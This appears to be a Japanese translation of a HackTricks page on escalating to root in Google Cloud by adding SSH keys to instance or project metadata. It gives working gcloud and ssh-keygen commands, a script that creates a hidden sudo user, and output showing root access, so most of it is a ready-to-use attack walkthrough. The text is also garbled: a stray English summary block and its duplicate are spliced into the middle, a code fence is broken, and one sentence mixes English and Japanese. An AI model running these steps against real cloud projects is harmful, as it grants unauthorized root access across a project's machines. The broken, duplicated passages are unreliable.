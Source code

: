 # GCP - カスタムSSHメタデータの追加

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有してください。

</details>

## メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータを**変更できる**場合、ローカルで権限を昇格させる方法は数多くあります。この権限を持つサービスアカウントにつながるいくつかのシナリオがあります：

_**デフォルトサービスアカウント**_\
サービスアカウントのアクセス**スコープ**が**完全アクセス**に設定されているか、少なくとも**コンピュートAPIへのアクセス**を明示的に許可している場合、この設定は昇格に**脆弱**です。**デフォルト**の**スコープ**は**脆弱ではありません**。

_**カスタムサービスアカウント**_\
カスタムサービスアカウントを使用する場合、権限を昇格させるためには以下のIAM権限の**いずれかが必要**です：

* `compute.instances.setMetadata`（単一のインスタンスに影響を与えるため）
* `compute.projects.setCommonInstanceMetadata`（プロジェクト内のすべてのインスタンスに影響を与えるため）

Googleはカスタムサービスアカウントにアクセススコープを使用しないことを[推奨](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance)していますが、それでも可能です。以下の**アクセススコープ**のいずれかが必要です：

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **SSHキーをカスタムメタデータに追加する**

GCP上の**Linux** **システム**は通常、[Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)スクリプトを実行しています。これらの中には、インスタンスメタデータエンドポイントに対して**定期的に**認証されたSSH公開キーの**変更を照会**する[accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)があります。

**新しい公開**キーが検出されると、それは処理されて**ローカルマシンに追加**されます。キーの形式によっては、**既存のユーザー**の`~/.ssh/authorized_keys`ファイルに追加されるか、`sudo`権限を持つ**新しいユーザーを作成**します。

したがって、サービスアカウントで**カスタムインスタンスメタデータを変更**できる場合、特権アカウントへのSSH権限を**取得する**ことで、ローカルシステム上でrootに**昇格**することができます。**カスタムプロジェクトメタデータを変更**できる場合、accounts daemonを実行している現在のGCPプロジェクト内の**任意のシステム**でrootに**昇格**することができます。

### **既存の特権ユーザーにSSHキーを追加する**

まず、既存のアカウントに自分のキーを追加することから始めましょう。これがおそらく最も少ない騒音を立てるでしょう。

**インスタンスで既存のSSHキーを確認**します。これらのユーザーの1人を選びます。彼らはsudo権限を持っている可能性が高いです。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
```markdown
# GCP Compute Privilege Escalation via Custom SSH Metadata

## Overview

In GCP, instances can have custom metadata that is used to manage SSH keys. An attacker with the ability to modify an instance's metadata can add their own SSH key, allowing them to gain unauthorized access to that instance.

## Prerequisites

- Access to a GCP account with permissions to modify instance metadata.

## Step-by-Step Guide

1. Navigate to the GCP Console and select the target instance.
2. Go to the instance's details page and click on the "Edit" button.
3. Scroll down to the "SSH Keys" section.
4. Add your public SSH key to the instance's metadata.
5. Save the changes and SSH into the instance using your private key.

## Conclusion

By adding a custom SSH key to an instance's metadata, an attacker can escalate their privileges and gain full control over the instance. It is important for organizations to monitor and restrict who has the ability to modify instance metadata to prevent such attacks.
```

# GCP Compute Privilege Escalation via Custom SSH Metadata

## 概要

GCPでは、インスタンスにはSSHキーを管理するために使用されるカスタムメタデータがあります。インスタンスのメタデータを変更する能力を持つ攻撃者は、自分のSSHキーを追加することで、そのインスタンスへの不正アクセスを可能にします。

## 前提条件

- インスタンスのメタデータを変更する権限を持つGCPアカウントへのアクセス。

## ステップバイステップガイド

1. GCPコンソールに移動し、対象のインスタンスを選択します。
2. インスタンスの詳細ページに移動し、「編集」ボタンをクリックします。
3. 「SSHキー」セクションまでスクロールダウンします。
4. あなたの公開SSHキーをインスタンスのメタデータに追加します。
5. 変更を保存し、あなたの秘密キーを使用してインスタンスにSSHで接続します。

## 結論

インスタンスのメタデータにカスタムSSHキーを追加することで、攻撃者は自分の権限を昇格させ、インスタンスを完全に制御することができます。組織は、このような攻撃を防ぐために、インスタンスのメタデータを変更する能力を監視し、制限することが重要です。
```
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
公開鍵の**やや奇妙な形式**に注意してください - **ユーザー名**が**最初**に（コロンに続いて）リストされ、その後**最後**にもう一度リストされます。この形式に合わせる必要があります。通常のSSHキー操作とは異なり、ユーザー名は絶対に重要です！

**ユーザー名とキーが含まれる行を新しいテキスト**ファイル`meta.txt`に保存します。

上記のユーザー`alice`をターゲットにすると仮定しましょう。次のように自分用の**新しいキーを生成**します：
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
ファイル `meta.txt` に新しい公開鍵を以下の形式で追加します:
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
Now, you can **SSHキーメタデータを書き換える** 以下のコマンドでインスタンスのために:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
**`alice`のコンテキストでシェルにアクセスする方法は以下の通りです：**
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **新しい特権ユーザーを作成し、SSHキーを追加する**

上記の手順に従っても既存のキーが見つからない場合、または`/etc/passwd`でターゲットにする興味深い他のユーザーがいない場合はどうでしょうか？

**同じプロセスに従って**、ただ**新しいユーザー名を作ります**。このユーザーは自動的に作成され、`sudo`の権利が与えられます。スクリプト化されたプロセスは次のようになります：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### プロジェクトレベルでのSSHキー <a href="#sshing-around" id="sshing-around"></a>

前のセクションで述べた詳細に従って、さらに多くのVMを侵害しようとすることができます。

これらに少し詳しく触れることで、["Block project-wide SSH keys" オプションを明示的に選択していない任意のインスタンスに対して、**特権アカウントへのSSHアクセス**を許可する、[**プロジェクトレベルでSSHキーを適用する**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide)ことができます。
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
大胆なら、`gcloud compute ssh [INSTANCE]` を入力して、他のボックスで現在のユーザー名を使用することもできます。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または **HackTricksをPDFでダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
